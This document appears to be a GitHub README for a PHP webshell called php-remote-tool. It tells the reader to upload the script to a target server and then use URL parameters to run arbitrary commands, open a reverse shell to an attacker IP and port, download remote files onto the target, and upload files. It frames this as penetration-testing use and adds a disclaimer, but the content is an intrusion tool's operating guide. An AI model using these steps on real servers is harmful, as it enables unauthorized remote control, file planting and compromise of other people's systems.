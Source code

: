 ##PHP Remote Tool
Author: Yavuz Sahbaz
GitHub: https://github.com/YavuzSahbaz

#Overview
php-remote-tool is a PHP webshell script that enables remote command execution, reverse shell initiation, file downloading, and file uploading on a target system running a web server with PHP support. This script is designed for use during penetration testing exercises or system administration tasks where you have permission to perform these actions on the target system. Unauthorized use may be illegal and unethical.

#Usage
Upload the php-remote-tool script to the target web server.
Access the script through a web browser or a tool like curl or wget.
Execute commands
To execute a command on the target system, use the following URL format:


Copy code
http://target.com/path/cmd.php?cmd=[COMMAND]
Replace [COMMAND] with the command you want to execute on the target system.

#Initiate reverse shell
To initiate a reverse shell to your system, use the following URL format:


Copy code
http://target.com/path/cmd.php?revshell=[ATTACKER_IP]:[ATTACKER_PORT]
Replace [ATTACKER_IP] with your IP address and [ATTACKER_PORT] with the port you want to use for the reverse shell connection. Make sure to set up a listener on your system to receive the connection.

#Download a file
To download a file from a URL and save it on the target system, use the following URL format:


Copy code
http://target.com/path/cmd.php?download=[URL]&filename=[FILENAME]
Replace [URL] with the URL of the file you want to download, and [FILENAME] with the desired name for the saved file on the target system.

#Upload a file
To upload a file to the target system, use the following URL format:

Copy code
http://target.com/path/cmd.php?upload&filepath=[FILE_PATH]
Replace [FILE_PATH] with the desired file path for the uploaded file on the target system. Use an HTTP POST request to send the file with the Content-Type header set to multipart/form-data and the file parameter named "file".

#Disclaimer
This PHP webshell script is intended for educational purposes and ethical use only. Unauthorized use of this script may be illegal and unethical. Always make sure you have permission to perform any action on the target system and follow ethical hacking principles and guidelines. The author and any contributors are not responsible for any damage caused by unauthorized use of this script.
